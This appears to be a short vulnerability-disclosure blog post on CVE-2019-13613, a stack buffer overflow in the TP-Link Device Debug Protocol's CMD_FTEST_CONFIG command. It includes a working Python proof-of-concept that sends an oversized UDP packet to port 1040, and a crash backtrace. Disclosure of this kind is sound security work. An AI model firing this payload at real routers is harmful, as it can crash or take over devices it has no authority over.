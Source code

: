 ```yaml
---
layout: post
title: "[CVE-2019-13613] tddp CMD_FTEST_CONFIG Stack-based Buffer Overflow"
date: 2019-07-15
categories:
    - blog
keywords: "tp-link, tddp, buffer overflow, stack overflow"
---
```


CMD_FTEST_CONFIG in the TP-Link Device Debug protocol in TP-Link Wireless Router Archer Router version 1.0.0 Build 20180502 rel.45702 (EU) and earlier is prone to a stack-based buffer overflow, which allows a remote attacker to achieve code execution or denial of service by sending a crafted payload to the listening server.

Proof-of-Concept:
```py
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

import sys
import binascii
import socket

rhost = "target_ip"
payload = "A" * 259 + "BBBBCCCC"

port_send = 1040

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;junk" % payload
packet = packet + argument.encode()
sock_send.sendto(packet, (rhost, port_send))
sock_send.close()
```

```
#0  0xff7277a8 in strnlen () from /lib/libc.so.0
#1  0xff722050 in _vfprintf_internal () from /lib/libc.so.0
#2  0xff71f3c8 in vsnprintf () from /lib/libc.so.0
#3  0x000092cc in ?? ()
Backtrace stopped: previous frame identical to this frame (corrupt stack?)
```

---
References:
1. https://mjg59.dreamwidth.org/51672.html?thread=1916120
